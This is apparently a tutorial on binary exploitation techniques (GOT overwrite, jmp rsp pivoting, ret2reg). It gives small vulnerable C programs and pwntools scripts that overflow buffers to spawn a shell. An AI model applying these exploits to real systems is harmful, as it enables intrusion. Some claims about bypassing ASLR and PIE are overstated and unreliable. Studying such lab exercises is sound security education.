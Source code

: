 ## Reliable Shellcode Exploitation

### Introduction
This document explains reliable shellcode exploitation techniques across different scenarios, demonstrating how to use **GOT overwrite**, **RSP manipulation**, and **ret2reg** for exploiting vulnerabilities in binaries.

---

### **GOT Overwrite - 32-bit**

**Vulnerable Code Example (32-bit)**
```c
#include <stdio.h>

void vuln() {
    char buffer[20];

    puts("Give me the input");
    gets(buffer);
}

int main() {
    vuln();
    return 0;
}
```

In this scenario, the vulnerable function `vuln()` uses `gets()`, allowing us to overflow the `buffer` and overwrite the return address.

**Exploitation Process:**
1. Use the `GOT` entry for `puts()` as a writable space.
2. Overflow the buffer, write the shellcode to the `puts` GOT entry, and redirect the program to execute it.

**Exploitation Code:**
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)
rop.raw('A' * 32)  # Buffer overflow padding
rop.gets(elf.got['puts'])  # Call gets(), writing to the GOT entry of puts
rop.raw(elf.got['puts'])  # Shellcode is now written at this location

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))  # Shellcode to spawn a shell
p.interactive()
```

---

### **GOT Overwrite - 64-bit**

In 64-bit systems, the same technique applies but with additional considerations for Address Space Layout Randomization (ASLR) and Position Independent Executables (PIE). However, **GOT overwriting** works reliably without worrying about ASLR.

---

### **RSP Manipulation (Shellcode with RSP)**

**Vulnerable Code Example:**
```c
#include <stdio.h>

int test = 0;

int main() {
    char input[100];

    puts("Get me with shellcode and RSP!");
    gets(input);

    if (test) {
        asm("jmp *%rsp");
        return 0;
    } else {
        return 0;
    }
}
```

Here, RSP can be manipulated, allowing us to pivot execution to shellcode directly placed in memory.

**Exploitation Process:**
1. Locate a `jmp rsp` gadget (typically using `ROPgadget`).
2. Overflow the buffer, setting up RSP to point to the shellcode.
3. Jump to the shellcode via `jmp rsp`.

**Exploitation Code:**
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

# Find a 'jmp rsp' gadget in the binary
jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = flat(
    'A' * 120,                # Padding
    jmp_rsp,                  # RSP points to shellcode
    asm(shellcraft.sh())      # Shellcode
)

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

**Limited Space Exploit:**
If the buffer space is limited, adjust RSP using a small offset, then jump to the shellcode.

**Exploitation Code with Small Offset:**
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 128;  # Adjust RSP
    jmp rsp;
''')  # Use the calculated RSP offset

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

---

### **ret2reg (Using Registers to Control Flow)**

In this method, we target functions like `gets()` that return a pointer, and we exploit this by jumping to the address stored in a register, such as `RAX`.

**Vulnerable Code Example:**
```c
#include <stdio.h>

void vuln() {
    char buffer[100];
    gets(buffer);
}

int main() {
    vuln();
    return 0;
}
```

**Analysis:**
1. The `gets()` function stores the buffer's address in `RAX`.
2. We search for a `jmp rax` gadget to jump to the shellcode stored at `RAX`.

**Exploitation Code:**
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

JMP_RAX = 0x40109c  # Found 'jmp rax' gadget address

payload = asm(shellcraft.sh())  # Shellcode
payload = payload.ljust(120, b'A')  # Padding
payload += p64(JMP_RAX)  # Jump to RAX (points to our shellcode)

p.sendline(payload)
p.interactive()
```

---

### **Conclusion**

These methods showcase various reliable ways of exploiting vulnerable binaries. Techniques like GOT overwrite, RSP manipulation, and ret2reg offer robust exploitation strategies even in the face of defenses like ASLR and PIE.
